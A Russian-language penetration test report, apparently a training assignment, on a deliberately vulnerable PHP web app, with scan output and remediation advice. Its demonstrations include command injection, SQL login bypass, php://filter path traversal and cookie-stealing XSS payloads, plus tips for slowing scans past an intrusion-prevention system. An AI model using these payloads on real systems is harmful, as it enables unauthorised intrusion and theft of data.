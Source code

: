 ### Этап 1. OSINT

Для сбора информации о адресе использованы следующие сервисы:  
- [shodan.io](https://www.shodan.io)
- [censys.io](https://search.censys.io)

Скриншот результатов:  
![](pic/censys-scan-92.51.39.106.png)  

В результате была обнаружена следующая информация: 
- Местонахождение сервера (Russia, Saint Petersburg)
- Версия ОС (Ubuntu Linux 20.04)
- Открытые порты с установленным ПО
    - 22/SSH (OpenBSD OpenSSH 8.2)
    - 7799/HTTP (веб-сайт Beemer, веб-сервер TornadoWeb Tornado 5.1.1)
    - 8060/HTTP (веб-сайт NetologyVulnApp.com, веб-сервер Apache HTTPD 2.4.7, язык PHP 5.5.9 )

<details>
<summary>Скриншоты обнаруженных сайтов</summary>

![](pic/NetologyVulnApp.com.png)
![](pic/Beemer.png)

</details>

### Этап 2. Scanning

Для сканирования хоста использовались инструменты:
 - NMap
 - Nikto
 - DirSearch

В ходе тестирования было обнаружено, что на хосте установлена система предотвращения вторжений (FortiGuard).
Для попытки обхода данной системы снижена скорость работы сканера nmap (с помощью параметра T0) и установлен таймаут между тестами в сканере nikto (-Pause 0.4 -timeout 3) 
Nmap запущен в режиме обнаружения сервисов с использованием плагина `vulners`

<details>
<summary>Результаты сканирования Nmap</summary>

```sh
$ nmap -sV -T4 --script vulners 92.51.39.106
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-28 16:41 +03
Nmap scan report for 1427771-cg36175.tw1.ru (92.51.39.106)
Host is up (0.011s latency).
Not shown: 990 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
21/tcp   open  tcpwrapped
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| vulners:
|   cpe:/a:openbsd:openssh:8.2p1:
|       CVE-2020-15778  6.8     https://vulners.com/cve/CVE-2020-15778
|       C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3    6.8     https://vulners.com/githubexploit/C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3  *EXPLOIT*
|       10213DBE-F683-58BB-B6D3-353173626207    6.8     https://vulners.com/githubexploit/10213DBE-F683-58BB-B6D3-353173626207  *EXPLOIT*
|       PRION:CVE-2020-12062    5.0     https://vulners.com/prion/PRION:CVE-2020-12062
|       CVE-2020-12062  5.0     https://vulners.com/cve/CVE-2020-12062
|       PRION:CVE-2021-28041    4.6     https://vulners.com/prion/PRION:CVE-2021-28041
|       CVE-2021-28041  4.6     https://vulners.com/cve/CVE-2021-28041
|       PRION:CVE-2021-41617    4.4     https://vulners.com/prion/PRION:CVE-2021-41617
|       CVE-2021-41617  4.4     https://vulners.com/cve/CVE-2021-41617
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|       CVE-2016-20012  4.3     https://vulners.com/cve/CVE-2016-20012
|       PRION:CVE-2021-36368    2.6     https://vulners.com/prion/PRION:CVE-2021-36368
|_      CVE-2021-36368  2.6     https://vulners.com/cve/CVE-2021-36368
25/tcp   open  tcpwrapped
80/tcp   open  tcpwrapped
110/tcp  open  tcpwrapped
143/tcp  open  tcpwrapped
2000/tcp open  tcpwrapped
5060/tcp open  tcpwrapped
7799/tcp open  http    Tornado httpd 5.1.1
|_http-server-header: TornadoServer/5.1.1
| vulners:
|   cpe:/a:tornadoweb:tornado:5.1.1:
|       OSV:PYSEC-2023-75       5.8     https://vulners.com/osv/OSV:PYSEC-2023-75
|       OSV:GHSA-HJ3F-6GCP-JG8J 5.8     https://vulners.com/osv/OSV:GHSA-HJ3F-6GCP-JG8J
|_      OSV:GHSA-QPPV-J76H-2RPX 0.0     https://vulners.com/osv/OSV:GHSA-QPPV-J76H-2RPX
8008/tcp open  http
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 302 Found
|     Location: https://:8010/nice%20ports%2C/Tri%6Eity.txt%2ebak
|     Connection: close
|     X-Frame-Options: SAMEORIGIN
|     X-XSS-Protection: 1; mode=block
|     X-Content-Type-Options: nosniff
|     Content-Security-Policy: frame-ancestors 'self'
|   GenericLines, HTTPOptions, RTSPRequest, SIPOptions:
|     HTTP/1.1 302 Found
|     Location: https://:8010
|     Connection: close
|     X-Frame-Options: SAMEORIGIN
|     X-XSS-Protection: 1; mode=block
|     X-Content-Type-Options: nosniff
|     Content-Security-Policy: frame-ancestors 'self'
|   GetRequest:
|     HTTP/1.1 302 Found
|     Location: https://:8010/
|     Connection: close
|     X-Frame-Options: SAMEORIGIN
|     X-XSS-Protection: 1; mode=block
|     X-Content-Type-Options: nosniff
|_    Content-Security-Policy: frame-ancestors 'self'
8010/tcp open  ssl/xmpp?
| fingerprint-strings:
|   GenericLines, GetRequest:
|     HTTP/1.1 200 OK
|     Content-Length: 4492
|     Connection: close
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     X-Frame-Options: SAMEORIGIN
|     X-XSS-Protection: 1; mode=block
|     X-Content-Type-Options: nosniff
|     Content-Security-Policy: frame-ancestors 'self'
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta http-equiv="X-UA-Compatible" content="IE=8; IE=EDGE">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <style type="text/css">
|     body {
|     height: 100%;
|     font-family: Helvetica, Arial, sans-serif;
|     color: #6a6a6a;
|     margin: 0;
|     display: flex;
|     align-items: center;
|     justify-content: center;
|_    input[type=date], input[type=email], input[type=number], input[type=password]
2 services unrecognized despite returning data. 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
8060/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| vulners:
|   cpe:/a:apache:http_server:2.4.7:
|       PACKETSTORM:171631      7.5     https://vulners.com/packetstorm/PACKETSTORM:171631      *EXPLOIT*
|       EDB-ID:51193    7.5     https://vulners.com/exploitdb/EDB-ID:51193      *EXPLOIT*
|       CVE-2023-25690  7.5     https://vulners.com/cve/CVE-2023-25690
|       CVE-2022-31813  7.5     https://vulners.com/cve/CVE-2022-31813
|       CVE-2022-23943  7.5     https://vulners.com/cve/CVE-2022-23943
|       CVE-2021-44790  7.5     https://vulners.com/cve/CVE-2021-44790
|       CVE-2021-39275  7.5     https://vulners.com/cve/CVE-2021-39275
|       CVE-2021-26691  7.5     https://vulners.com/cve/CVE-2021-26691
|       CVE-2017-7679   7.5     https://vulners.com/cve/CVE-2017-7679
|       CVE-2017-3167   7.5     https://vulners.com/cve/CVE-2017-3167
|       CNVD-2022-73123 7.5     https://vulners.com/cnvd/CNVD-2022-73123
|       CNVD-2022-03225 7.5     https://vulners.com/cnvd/CNVD-2022-03225
|       CNVD-2021-102386        7.5     https://vulners.com/cnvd/CNVD-2021-102386
|       5C1BB960-90C1-5EBF-9BEF-F58BFFDFEED9    7.5     https://vulners.com/githubexploit/5C1BB960-90C1-5EBF-9BEF-F58BFFDFEED9  *EXPLOIT*
|       1337DAY-ID-38427        7.5     https://vulners.com/zdt/1337DAY-ID-38427        *EXPLOIT*
|       PACKETSTORM:127546      6.8     https://vulners.com/packetstorm/PACKETSTORM:127546      *EXPLOIT*
|       FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8    6.8     https://vulners.com/githubexploit/FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8  *EXPLOIT*
|       CVE-2021-40438  6.8     https://vulners.com/cve/CVE-2021-40438
|       CVE-2020-35452  6.8     https://vulners.com/cve/CVE-2020-35452
|       CVE-2018-1312   6.8     https://vulners.com/cve/CVE-2018-1312
|       CVE-2017-15715  6.8     https://vulners.com/cve/CVE-2017-15715
|       CVE-2016-5387   6.8     https://vulners.com/cve/CVE-2016-5387
|       CVE-2014-0226   6.8     https://vulners.com/cve/CVE-2014-0226
|       CNVD-2022-03224 6.8     https://vulners.com/cnvd/CNVD-2022-03224
|       8AFB43C5-ABD4-52AD-BB19-24D7884FF2A2    6.8     https://vulners.com/githubexploit/8AFB43C5-ABD4-52AD-BB19-24D7884FF2A2  *EXPLOIT*
|       4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332    6.8     https://vulners.com/githubexploit/4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332  *EXPLOIT*
|       4373C92A-2755-5538-9C91-0469C995AA9B    6.8     https://vulners.com/githubexploit/4373C92A-2755-5538-9C91-0469C995AA9B  *EXPLOIT*
|       1337DAY-ID-22451        6.8     https://vulners.com/zdt/1337DAY-ID-22451        *EXPLOIT*
|       0095E929-7573-5E4A-A7FA-F6598A35E8DE    6.8     https://vulners.com/githubexploit/0095E929-7573-5E4A-A7FA-F6598A35E8DE  *EXPLOIT*
|       CVE-2022-28615  6.4     https://vulners.com/cve/CVE-2022-28615
|       CVE-2021-44224  6.4     https://vulners.com/cve/CVE-2021-44224
|       CVE-2017-9788   6.4     https://vulners.com/cve/CVE-2017-9788
|       CVE-2019-0217   6.0     https://vulners.com/cve/CVE-2019-0217
|       CVE-2022-22721  5.8     https://vulners.com/cve/CVE-2022-22721
|       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
|       CVE-2019-10098  5.8     https://vulners.com/cve/CVE-2019-10098
|       1337DAY-ID-33577        5.8     https://vulners.com/zdt/1337DAY-ID-33577        *EXPLOIT*
|       CVE-2022-36760  5.1     https://vulners.com/cve/CVE-2022-36760
|       SSV:96537       5.0     https://vulners.com/seebug/SSV:96537    *EXPLOIT*
|       SSV:62058       5.0     https://vulners.com/seebug/SSV:62058    *EXPLOIT*
|       SSV:61874       5.0     https://vulners.com/seebug/SSV:61874    *EXPLOIT*
|       EXPLOITPACK:DAED9B9E8D259B28BF72FC7FDC4755A7    5.0     https://vulners.com/exploitpack/EXPLOITPACK:DAED9B9E8D259B28BF72FC7FDC4755A7    *EXPLOIT*
|       EXPLOITPACK:C8C256BE0BFF5FE1C0405CB0AA9C075D    5.0     https://vulners.com/exploitpack/EXPLOITPACK:C8C256BE0BFF5FE1C0405CB0AA9C075D    *EXPLOIT*
|       EDB-ID:42745    5.0     https://vulners.com/exploitdb/EDB-ID:42745      *EXPLOIT*
|       EDB-ID:40961    5.0     https://vulners.com/exploitdb/EDB-ID:40961      *EXPLOIT*
|       CVE-2022-37436  5.0     https://vulners.com/cve/CVE-2022-37436
|       CVE-2022-30556  5.0     https://vulners.com/cve/CVE-2022-30556
|       CVE-2022-29404  5.0     https://vulners.com/cve/CVE-2022-29404
|       CVE-2022-28614  5.0     https://vulners.com/cve/CVE-2022-28614
|       CVE-2022-26377  5.0     https://vulners.com/cve/CVE-2022-26377
|       CVE-2021-34798  5.0     https://vulners.com/cve/CVE-2021-34798
|       CVE-2021-26690  5.0     https://vulners.com/cve/CVE-2021-26690
|       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
|       CVE-2019-17567  5.0     https://vulners.com/cve/CVE-2019-17567
|       CVE-2019-0220   5.0     https://vulners.com/cve/CVE-2019-0220
|       CVE-2018-17199  5.0     https://vulners.com/cve/CVE-2018-17199
|       CVE-2018-1303   5.0     https://vulners.com/cve/CVE-2018-1303
|       CVE-2017-9798   5.0     https://vulners.com/cve/CVE-2017-9798
|       CVE-2017-15710  5.0     https://vulners.com/cve/CVE-2017-15710
|       CVE-2016-8743   5.0     https://vulners.com/cve/CVE-2016-8743
|       CVE-2016-2161   5.0     https://vulners.com/cve/CVE-2016-2161
|       CVE-2016-0736   5.0     https://vulners.com/cve/CVE-2016-0736
|       CVE-2015-3183   5.0     https://vulners.com/cve/CVE-2015-3183
|       CVE-2015-0228   5.0     https://vulners.com/cve/CVE-2015-0228
|       CVE-2014-3581   5.0     https://vulners.com/cve/CVE-2014-3581
|       CVE-2014-0231   5.0     https://vulners.com/cve/CVE-2014-0231
|       CVE-2014-0098   5.0     https://vulners.com/cve/CVE-2014-0098
|       CVE-2013-6438   5.0     https://vulners.com/cve/CVE-2013-6438
|       CVE-2013-5704   5.0     https://vulners.com/cve/CVE-2013-5704
|       CVE-2006-20001  5.0     https://vulners.com/cve/CVE-2006-20001
|       CNVD-2022-73122 5.0     https://vulners.com/cnvd/CNVD-2022-73122
|       CNVD-2022-53584 5.0     https://vulners.com/cnvd/CNVD-2022-53584
|       CNVD-2022-53582 5.0     https://vulners.com/cnvd/CNVD-2022-53582
|       CNVD-2022-03223 5.0     https://vulners.com/cnvd/CNVD-2022-03223
|       1337DAY-ID-28573        5.0     https://vulners.com/zdt/1337DAY-ID-28573        *EXPLOIT*
|       1337DAY-ID-26574        5.0     https://vulners.com/zdt/1337DAY-ID-26574        *EXPLOIT*
|       SSV:87152       4.3     https://vulners.com/seebug/SSV:87152    *EXPLOIT*
|       PACKETSTORM:127563      4.3     https://vulners.com/packetstorm/PACKETSTORM:127563      *EXPLOIT*
|       CVE-2020-11985  4.3     https://vulners.com/cve/CVE-2020-11985
|       CVE-2019-10092  4.3     https://vulners.com/cve/CVE-2019-10092
|       CVE-2018-1302   4.3     https://vulners.com/cve/CVE-2018-1302
|       CVE-2018-1301   4.3     https://vulners.com/cve/CVE-2018-1301
|       CVE-2016-4975   4.3     https://vulners.com/cve/CVE-2016-4975
|       CVE-2015-3185   4.3     https://vulners.com/cve/CVE-2015-3185
|       CVE-2014-8109   4.3     https://vulners.com/cve/CVE-2014-8109
|       CVE-2014-0118   4.3     https://vulners.com/cve/CVE-2014-0118
|       CVE-2014-0117   4.3     https://vulners.com/cve/CVE-2014-0117
|       4013EC74-B3C1-5D95-938A-54197A58586D    4.3     https://vulners.com/githubexploit/4013EC74-B3C1-5D95-938A-54197A58586D  *EXPLOIT*
|       1337DAY-ID-33575        4.3     https://vulners.com/zdt/1337DAY-ID-33575        *EXPLOIT*
|       CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283
|       CVE-2016-8612   3.3     https://vulners.com/cve/CVE-2016-8612
|_      PACKETSTORM:140265      0.0     https://vulners.com/packetstorm/PACKETSTORM:140265      *EXPLOIT*
```

</details>

<details>
<summary>Результаты сканирования Nikto</summary>

```sh
nikto -h http://92.51.39.106:8060 -Pause 2 -timeout 3 -T 12350bde
-***** Pausing 2 second(s) per request
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          92.51.39.106
+ Target Hostname:    92.51.39.106
+ Target Port:        8060
+ Start Time:         2023-10-01 19:25:08 (GMT3)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ /: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /: Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.29.
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /admin/: PHP include error may indicate local or remote file inclusion is possible.
+ /admin/: This might be interesting.
+ /cart/: Directory indexing found.
+ /cart/: This might be interesting.
+ /css/: Directory indexing found.
+ /css/: This might be interesting.
+ /users/: Directory indexing found.
+ /users/: This might be interesting.
+ ERROR: Error limit (20) reached for host, giving up. Last error: error reading HTTP response
+ Scan terminated: 17 error(s) and 14 item(s) reported on remote host
+ End Time:           2023-10-01 20:47:46 (GMT3) (4958 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

</details>

<details>
<summary>Результаты сканирования DirSearch</summary>

```sh
$ dirsearch -u http://92.51.39.106:8060 --cookie="PHPSESSID=2vk27akqfvv4h1sgc9kjin6db7"

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/qwuen/.dirsearch/reports/92.51.39.106-8060/_23-10-03_20-52-08.txt

Error Log: /home/qwuen/.dirsearch/logs/errors-23-10-03_20-52-08.log

Target: http://92.51.39.106:8060/

[20:52:08] Starting:
[20:52:11] 403 -  292B  - /.ht_wsr.txt
[20:52:11] 403 -  295B  - /.htaccess.bak1
[20:52:11] 403 -  295B  - /.htaccess.orig
[20:52:11] 403 -  297B  - /.htaccess.sample
[20:52:11] 403 -  296B  - /.htaccess_extra
[20:52:11] 403 -  295B  - /.htaccess.save
[20:52:11] 403 -  295B  - /.htaccess_orig
[20:52:11] 403 -  293B  - /.htaccessOLD
[20:52:11] 403 -  293B  - /.htaccess_sc
[20:52:11] 403 -  293B  - /.htaccessBAK
[20:52:11] 403 -  294B  - /.htaccessOLD2
[20:52:11] 403 -  285B  - /.htm
[20:52:11] 403 -  286B  - /.html
[20:52:11] 403 -  292B  - /.httr-oauth
[20:52:11] 403 -  295B  - /.htpasswd_test
[20:52:11] 403 -  291B  - /.htpasswds
[20:52:12] 403 -  285B  - /.php
[20:52:12] 403 -  286B  - /.php3
[20:52:17] 200 -    2KB - /about.php
[20:52:17] 301 -  318B  - /admin  ->  http://92.51.39.106:8060/admin/
[20:52:18] 200 -  326B  - /admin/
[20:52:18] 200 -  326B  - /admin/?/login
[20:52:18] 403 -  296B  - /admin/.htaccess
[20:52:18] 303 -    0B  - /admin/home.php  ->  /admin/index.php?page=login
[20:52:18] 200 -  326B  - /admin/index.php
[20:52:18] 200 -  273B  - /admin/login.php
[20:52:24] 301 -  317B  - /cart  ->  http://92.51.39.106:8060/cart/
[20:52:24] 200 -    3KB - /calendar.php
[20:52:24] 403 -  289B  - /cgi-bin/
[20:52:24] 403 -  307B  - /cgi-bin/a1stats/a1disp.cgi
[20:52:24] 403 -  299B  - /cgi-bin/awstats.pl
[20:52:24] 403 -  300B  - /cgi-bin/htimage.exe?2,2
[20:52:24] 403 -  299B  - /cgi-bin/index.html
[20:52:24] 403 -  301B  - /cgi-bin/imagemap.exe?2,2
[20:52:24] 403 -  296B  - /cgi-bin/php.ini
[20:52:24] 403 -  299B  - /cgi-bin/htmlscript
[20:52:24] 403 -  297B  - /cgi-bin/awstats/
[20:52:24] 403 -  300B  - /cgi-bin/printenv.pl
[20:52:24] 403 -  297B  - /cgi-bin/test.cgi
[20:52:24] 403 -  300B  - /cgi-bin/ViewLog.asp
[20:52:24] 403 -  297B  - /cgi-bin/logi.php
[20:52:24] 403 -  294B  - /cgi-bin/login
[20:52:24] 403 -  297B  - /cgi-bin/test-cgi
[20:52:24] 403 -  298B  - /cgi-bin/login.cgi
[20:52:25] 301 -  321B  - /comments  ->  http://92.51.39.106:8060/comments/
[20:52:26] 301 -  316B  - /css  ->  http://92.51.39.106:8060/css/
[20:52:28] 200 -    2KB - /error.php
[20:52:30] 301 -  319B  - /images  ->  http://92.51.39.106:8060/images/
[20:52:30] 200 -    1KB - /images/
[20:52:31] 500 -  611B  - /include
[20:52:31] 500 -  611B  - /include/config.inc.jsp
[20:52:31] 500 -  611B  - /include/config.inc.aspx
[20:52:31] 500 -  611B  - /include/config.inc.php
[20:52:31] 500 -  611B  - /include/config.inc.js
[20:52:31] 500 -  611B  - /include/
[20:52:31] 500 -  611B  - /include/config.inc.html
[20:52:31] 500 -  611B  - /include/fckeditor/
[20:52:31] 500 -  611B  - /include/fckeditor
[20:52:31] 200 -    3KB - /index.php
[20:52:31] 200 -    3KB - /index.php/login/
[20:52:38] 301 -  321B  - /pictures  ->  http://92.51.39.106:8060/pictures/
[20:52:41] 403 -  295B  - /server-status/
[20:52:41] 403 -  294B  - /server-status
[20:52:44] 200 -  142B  - /test.php
[20:52:45] 301 -  319B  - /upload  ->  http://92.51.39.106:8060/upload/
[20:52:45] 200 -    3KB - /upload/
[20:52:46] 301 -  318B  - /users  ->  http://92.51.39.106:8060/users/
[20:52:46] 200 -    2KB - /users/
[20:52:46] 200 -    3KB - /users/login.php

Task Completed
```

</details>

#### По результатам сканирования можно выделить следующие проблемы:
- Проблема сессии приложения
    - Нет привязки сессии к устройству 
    - Не установлен флаг `httponly` у сессионной куки  

  Эти проблемы говорят о возможности использовать уязвимости XSS, CSRF
- Отсутствие заголовка `X-Frame-Options`, это говорит о возможной уязвимости `ClickJacking`
- Включена индексация директорий, что дает возможность:  
    - Изучить файлы приложения
    - Найти файлы конфигурации и пароли
    - Попробовать внедрить shell-скрипты
    - Попробовать использовать уязвимость `Path Traversal`

----

### Этап 3. Testing

Тестирование приложения проводилось как в ручную, так и с помощью автоматизированного средства `Owasp Zap`  

В результате автоматического тестирования были найдены следующие проблемы:  
- SQL injection
- Межсайтовый скриптинг (DOM-based)
- Межсайтовый скриптинг (Reflected)
- Отсутствует заголовок (Header) для защиты от кликджекинга
- Отсутствуют токены против CSRF атак
- Просмотр каталогов
- Cookie без атрибута SameSite, HttpOnly, Strict-Transport-Security
- Заголовок X-Content-Type-Options отсутствует

![](pic/owasp-zap-report.png)

## Результаты тестирования
- Уязвимости Denial of Service, Command Injection ([A05:2021-Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/), [A03:2021-Injection](https://owasp.org/Top10/A03_2021-Injection/))  
**Критичность:** <font color="red">**Высокая**</font>  

- Наличие [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection) уязвимости на странице ([A03:2021-Injection](https://owasp.org/Top10/A03_2021-Injection/))  
**Критичность:** <font color="red">**Высокая**</font>  

- Слабый пароль администратора ([A07:2021-Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/))  
**Критичность:** <font color="orange">**Средняя**</font>    

- Использование чужой сессии. ([A07:2021-Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/))  
**Критичность:** <font color="orange">**Средняя**</font>  

- Уязвимость [Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal) ([A01:2021-Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/))   
**Критичность:** <font color="orange">**Средняя**</font>  

- Уязвимость к XSS атакам ([A03:2021-Injection](https://owasp.org/Top10/A03_2021-Injection/), [Stored XSS](https://owasp.org/www-community/attacks/xss/#stored-xss-attacks))  
**Критичность:** <font color="orange">**Средняя**</font>  

- Отсутствие защиты от BruteForce атак. ([A07:2021-Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/))    
**Критичность:** <font color="orange">**Средняя**</font>  

- Отсутствие защиты от атак типа Сlickjacking, XSRF. ([A01:2021-Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/))    
**Критичность:** <font color="orange">**Средняя**</font>

---

### Этап 4. Создание отчёта

#### Демонстрация уязвимостей

<details>
<summary>Уязвимости Denial of Service, Command Injection</summary><blockquote>

**Описание**: На странице есть возможность проверить надежность пароля. При этом пароль проверяется по файлу паролей в операционной системе. Для чтения файла используется метод PHP `exec` с использованием пользовательского ввода в сыром ввиде.  

```php
$pass = $_GET["password"];
exec("/bin/cat /usr/share/dict/words | grep " . $pass, $output, $status);
```
**Страница**: `http://92.51.39.106:8060/passcheck.php`
**Критичность:** <font color="red">**Высокая**</font>    
**Предложения по исправлению**:  
 - Не использовать опасные методы PHP по взаимодействию с ОС
 - Использовать санитизацию и экранирование пользовательского ввода
 
<details>
<summary>Подробности реализации</summary>

- Заходим на исследуемую страницу и вводим в поле ввода `Password to check` любой пароль. После проверки пароля система отображает используемую shell-команду в интерфейсе.  
Используется следующий шаблон:  
`grep ^UserInput$ /etc/dictionaries-common/words`  

![](pic/dos.png)  
- Попробуем повлиять на команду и введем один из спец. символов `&, &&, |, ||` для образования `pipeline` (конвейера) команд.  
```sh
test | whoami
```
![](pic/dos-example.png)  

- После отправки запроса на сервер сайт будет недоступен какое-то время, что является отказом в обслуживании. (Denial of Service)

</blockquote></details>
</details>

-------

<details>
<summary>Наличие `SQL Injection` уязвимости на странице</summary><blockquote>

**Описание**: 
- Через форму авторизации пользователей есть возможность внедрить sql скрипт в поле логина.
**Критичность:** <font color="red">**Высокая**</font>
Существует возможность выполнения следующих действий:  
- Добавление, изменение данных в таблицах 
- Удаление данных из таблиц
- Нарушение схемы БД 

**Предложения по исправлению**:  
- Добавить валидацию, санитизацию входных данных с формы 

<details>
<summary> Подробности реализации</summary>

1. Перейти на страницу `http://92.51.39.106:8060/users/login.php` и в форме авторизации в поле логина использовать следующий вектор атаки:  
```
' OR 1 -- -
```
![](pic/sqli-example.png)

2. Запрос выполнился корректно.  
Мы успешно авторизовываемся по пользователем `Sample User`   

Проблема находится в данном участке кода
```php
 function check_login($username, $pass, $vuln = False)
   {
      if ($vuln)
      {
	 $query = sprintf("SELECT * from `users` where `login` like '%s' and `password` = SHA1( CONCAT('%s', `salt`)) limit 1;",
	                   $username,
	                   mysql_real_escape_string($pass));	 
      }
      else
      {
	 $query = sprintf("SELECT * from `users` where `login` like '%s' and `password` = SHA1( CONCAT('%s', `salt`)) limit 1;",
	                   mysql_real_escape_string($username),
	                   mysql_real_escape_string($pass));
      }
      $res = mysql_query($query);
```
Метод `mysql_real_escape_string` не вызывается для параметра `$username`.

</details></blockquote>
</details>

-------

<details>
<summary>Слабый пароль администратора</summary><blockquote>

**Описание**: 
- На странице авторизации администратора сайта используется слабый пароль `admin/admin`

**Критичность:** <font color="orange">**Средняя**</font>  
Существует возможность получить несанкционированный доступ к административной консоли. Уязвимость со средней критичностью, т.к. текущая функциональность административной консоли небольшая, но в будущем может быть расширена. 

**Предложения по исправлению**:  
- Использовать сложный пароль
- Ввести ограничение на количество попыток авторизации

<details>
<summary> Подробности реализации</summary>

1. Перейти на страницу `http://92.51.39.106:8060/admin/index.php?page=login` и форме авторизации пользователя ввести логин/пароль: 
`admin/admin`

![](pic/weak-password-test.png)
![](pic/weak-password.png)

</details></blockquote>
</details>

-----

<details>
<summary>Использование чужой сессии</summary><blockquote>

**Описание**:   
Есть возможность скопировать сессионную куку пользователя из одного браузера в другой и продолжить работать в обоих браузерах.   
**Критичность:** <font color="orange">**Средняя**</font>  
Существует возможность выполнения следующих действий:  
- Кражи пользовательской куки
- Реализация XSS атаки  

**Предложения по исправлению**:  
 - Сделать привязку сессионной куки пользователя к устройству(браузеру)
 - Установить время жизни сессии пользователя в период бездействия

<details>
<summary>Подробности реализации</summary>

- Заходим пользователем `test` на страницу `http://92.51.39.106:8060/guestbook.php` с существующей хранимой XSS. Получаем сообщение с текущими значениями куки пользователя  
![](pic/stored-xss-session.png)  

- Копируем сессионную куку `PHPSESSID` в другой браузер и обновляем страницу. После обновления приложение не будет требовать авторизации и будет отображено имя пользователя `Test`
![](pic/use-session-value.png)  

</details></blockquote>
</details>

-----

<details>
<summary>Уязвимость Path Traversal</summary><blockquote>

**Описание**: Существует возможность обращения к файловой системе через параметр GET запроса  
**Критичность:** <font color="orange">**Средняя**</font>  

**Предложения по исправлению**:  
 - Валидация значений параметров запросов

<details>
<summary>Подробности реализации</summary>

1. Перейти на страницу `http://92.51.39.106:8060/admin/index.php?page=login`  
2. В параметре `page` использовать следующий вектор атаки:  
```
page=php://filter/read=convert.base64-encode/resource=../users/check_pass
```
В ответ получаем код запрошенной страницы в base64  
![](pic/path-traversal-test.png)
3. Декодируем строку и получаем код страницы  
![](pic/path-traversal.png)

</details></blockquote>
</details>

-----

<details>
<summary>Уязвимость к XSS атакам</summary><blockquote>

**Страницы**:  
- `http://92.51.39.106:8060/piccheck.php`  
- `http://92.51.39.106:8060/pictures/search.php?query=`
- `http://92.51.39.106:8060/guestbook.php`  
**Payload**: `#"><img src=/ onerror=alert(document.cookie)>`
**Описание**: На нескольких страницах происходит добавление пользовательского ввода на страницу без санитизации и экранирования    
**Критичность:** <font color="orange">**Средняя**</font>  
Существует возможность выполнения следующих действий:  
- Кража сессионной куки
- Перенаправление пользователей на сторонние сайты
- Выполнение XSRF атак на другие сайты в этой страницы  

**Предложения по исправлению**:  
- Добавить валидацию/санитизацию пользовательского ввода    

